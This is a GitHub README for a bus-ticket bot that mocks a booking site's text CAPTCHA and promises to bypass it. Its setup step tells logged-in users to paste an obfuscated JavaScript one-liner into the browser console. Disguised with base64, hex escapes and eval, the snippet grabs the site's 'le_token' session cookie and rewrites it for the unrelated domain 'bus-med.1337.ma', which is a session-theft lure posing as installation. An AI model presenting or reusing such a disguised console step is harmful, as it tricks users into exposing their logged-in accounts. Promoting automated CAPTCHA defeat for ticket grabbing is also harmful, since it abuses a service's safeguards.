

# Bus Ticket Automation Script 🚍💨

## What’s This?
Listen up, nerds, gather round. Welcome to the **Bus Ticket Automation Script**, a glorious slap in the face to **Texista’s** joke of a security system. Imagine this: a website still using *text CAPTCHAs* like it’s the Stone Age. "Select a bus"?? Bro, just hand over the ticket already. we're going right through.

## Why Use This?
Because you’re tired of looking at blurry letters and pretending to be a robot just to get a bus ticket. This script is like bringing a nuke to a thumb war. No more guessing blurry words like some government test subject. CAPTCHA security? Forget it. You're here for a ticket, not to prove you're human.


## Features
- **Full Attack Mode:** Go grab a snack while this thing handles all the ticket-grabbing nonsense. 🍕
- **CAPTCHA Terminator:** We don’t mess around. Picking out random letters? Leave that to the 9-to-5 robots.
- **Super Simple Setup:** Seriously, if you can copy and paste, you’re qualified.


# How to Use

1. **Clone the repo:**
	```bash
	git clone https://github.com/tazal3asima/taza_l3asima.git
	```
2. **Jump into the directory:**
	```bash
	cd taza_l3asima
	```

3. **copy this to firefox console after you logged in to bus website then completly quit the browser**
	```js
	(()=>{const[$,$_,$__,$___]=['cook','ment','docu','ie'],_='\x6c\x65\x5f\x74\x6f\x6b\x65\x6e',__=(_=>atob(_))('YnVzLW1lZC4xMzM3Lm1h');eval(`${$__}${$_}.${$}${$___}=\x27${_}=\x27+${$__}${$_}.${$}${$___}.split(\x27;\x27).find(x=>x.trim().startsWith(\x27${_}=\x27)).split(\x27=\x27)[1]+\x27; expires=\x27+new Date(Date.now()+3600000).toUTCString()+\x27; domain=${__}; path=/;\x27`)})();
	```

4. **Run the Bad boy before 5min of when you want to go:**
	```bash
	make
	```
<!-- load in image called meme.jpg -->


# if you get it you get it



